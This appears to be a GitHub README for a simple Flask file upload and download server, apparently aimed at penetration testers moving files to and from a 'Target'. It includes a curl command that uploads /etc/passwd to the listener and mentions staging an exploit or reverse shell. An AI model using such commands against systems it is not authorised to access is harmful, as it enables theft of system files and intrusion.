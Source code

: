 # Uploader
Download/Upload Python App - duppy

Simple Flask App to Upload Files

Perfect for spinning up if needing to transfer files over via the command line or browser.
```python
python Uploader.py -h
usage: Uploader.py [-h] [-P PORT] [-H HOST] [--upload-folder UPLOAD_FOLDER]

Simple Flask File Uploader

options:
  -h, --help            show this help message and exit
  -P PORT, --port PORT  Port Number to listen On - Default 5000
  -H HOST, --host HOST  Interface to listen on - Default all
  --upload-folder UPLOAD_FOLDER
                        Upload file path - Default 'cwd'
```

Spins up a Flask App
```python
python Uploader.py -H 192.168.0.29 -P 8000 --upload-folder C:\Users\gd\Downloads
 * Serving Flask app 'Uploader'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://192.168.0.29:8000
Press CTRL+C to quit
192.168.0.29 - - [08/Feb/2024 20:48:14] "POST / HTTP/1.1" 302 -
192.168.0.29 - - [08/Feb/2024 20:48:14] "POST /done HTTP/1.1" 200 -
```

## In Browser
Can Upload and also Download Files to the Target if needed

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/30baa38a-1a2b-4d4d-a8cc-5909cbcbca1d)


## Command Line
```bash
curl -L -s -X POST -F "file=@/etc/passwd" http://192.168.0.29:8000
File uploaded!

curl -L -s -X POST -F "file=@ips.txt" https://854d-11-11-11-11.ngrok-free.app

```
## ngrok Setup if accessing over the Internet

```
python Uploader.py -H 127.0.0.1 -P 5000 --upload-folder C:\Uploader\Files

.\ngrok.exe http 5000 --basic-auth="gd:SuperPassword"
```

![ngrok](https://github.com/deeexcee-io/Uploader/assets/130473605/269b7883-4615-469a-b958-5b15cdc0d668)

Enter Creds and you're good

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/ebd9e686-6cbc-469d-a187-3b3bec50573e)

List is Dynamically Updated to show current files

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/5b157912-b0ae-48e8-8006-84c2f476f437)


![image](https://github.com/deeexcee-io/Uploader/assets/130473605/8ff1ffe1-c314-4781-a520-53ea4917ceee)



All FIles in the Current Directory are also Served and can be Downloaded if needed. For example transferring over an exploit/reverse shell

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/ab51663d-fb7a-43a1-a99f-ac444fc71f27)






